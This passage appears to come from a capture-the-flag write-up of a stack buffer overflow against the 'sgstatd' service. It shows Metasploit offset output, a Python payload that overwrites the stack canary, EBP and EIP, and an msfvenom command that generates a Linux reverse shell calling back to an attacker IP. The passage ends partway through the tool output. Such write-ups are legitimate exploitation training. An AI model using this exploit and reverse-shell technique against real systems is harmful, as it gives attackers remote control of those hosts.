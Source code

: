 ```
```
# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb 61413161
[*] Exact match at offset 4
```

Similarly, EBP had been set to ```41306141```, which translated to offset 0.

The "msg" variable was again changed to represent the recently discovered locations:

{% highlight python %}
    msg = 'A' * 103
    msg += '\xe4\xff\xff\xe4' # Canary
    msg += '1111' # This will be EBP
    msg += '2222' # This will be EIP
    msg += pattern200
{% endhighlight %}

Running this version of ```xpl.py``` against the server showed that EBP and EIP could indeed be controlled remotely, and, this this example, changed to "1111" (```31313131```) and "2222" (```32323232```), respectively:

<figure>
	<a href="/images/2016-01-sans/11n.png"><img src="/images/2016-01-sans/11n.png"></a>
</figure>

Having a closer look at the memory layout at the time of the crash, the ESP register pointed to memory holding the bytes ```41306141```, which, again, translates to the first four characters of the previously sent pattern:

<figure>
	<a href="/images/2016-01-sans/12n.png"><img src="/images/2016-01-sans/12n.png"></a>
</figure>

To summarize; ESP was pointing to the beginning of the pattern. If this pattern was replaced with shellcode, and if EIP could be set to the location of a ```JMP ESP``` instruction, ```sgstatd``` should eventually execute the used shellcode. 

In order to replace the pattern with shellcode, the latter had to be created. After it had been determined that no badchars had to be dealt with, 

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.67 LPORT=16498 -f py
```

was used to create shellcode that would return a reverse shell to the attacking system (192.168.1.67):

```
#    msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.67 LPORT=16498 -f py
#	No platform was selected, choosing Msf::Module::Platform::Linux from the payload
#	No Arch selected, selecting Arch: x86 from the payload
#	No encoder or badchars specified, outputting raw payload

[img1]: /images/2016-01-sans/